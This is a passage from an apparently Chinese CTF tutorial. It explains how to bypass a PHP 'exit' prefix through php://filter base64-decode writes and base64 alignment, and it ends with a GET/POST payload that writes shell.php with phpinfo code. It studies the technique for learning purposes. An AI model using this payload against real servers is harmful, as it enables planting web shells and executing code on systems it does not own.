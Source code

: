 下面的例子：

```php
$strrr = "PD9wa<>HA<>gZ<?X>hpdDsgPz4=";//base64_encode "<?php exit; ?>"
    echo base64_decode($strrr);
    #Output: <?php exit; ?>
```

另外，在根据base64的编码原理，没有凑够4字节的倍数那么就会用=号凑齐：

比如 `a` → `base64_encode` = `"YQ=="`

所以如果要让密文正确解码，则我们得保证密文的长度必须为4的倍数。

如果密文长度不是4的倍数，我们继续拿上面的例子举例：

```php
$strrr = "PD9wa<>HA<>gZ<?X>hpdDsgPz4=";//base64_encode "<?php exit; ?>"
// 在strrr前面加以一个a
$strrr = "aPD9wa<>HA<>gZ<?X>hpdDsgPz4=";
    echo base64_decode($strrr);
    #Output: h������������?>
```

就会乱码。

那我们再回到这个问题，内容虽然被加上`<?php exit; ?>`，但前面的输入是可控的，不妨我们先使用`php://filter/write=convert.base64-decode` 来首先对其解码，这样只会剩下：`phpexit` 七个字符，到这我们再回头结合base64的解码规则——**4个一解码**，那么如果我们向下面这样构造：

```php
$strrr = "<?php exit; ?>aPD9waHAgcGhwaW5mbygpOz8+";
#Actual decoding:phpexitaPD9waHAgcGhwaW5mbygpOz8+
    echo base64_decode($strrr);
# OutPut：�^�+Z<?php phpinfo();?>
```

即：我们给`phpexit`增加一个字符使其正常解码,同时也确保我们后面的内容也正常解码。

最后payload如下：

```php
GET：?filename=php://filter/write=convert.base64-decode/resource=shell.php
POST：content=aPD9waHAgcGhwaW5mbygpOz8+
```

即可完成死亡绕过x

当然除了base64，还能使用rot13进行绕过，但其实原理都差不多，即使用filter过滤器进行构造，所以这里就不多赘述，接下来我们介绍filter过滤器中另外一个字符编码`Iconv`。

### Convert.iconv & base64

#### **特性一 base64_en/decode**

这里先提一个特性，看下面的base64加密解密过程：

![img](https://nssctf.wdf.ink//img/WDTJ/202302072109003.png)

我们将test当作base64解码再编码，重复多次我们还是可以得到test，当然前提是编码内容是4的倍数。

我们把这个记为 **特性一**
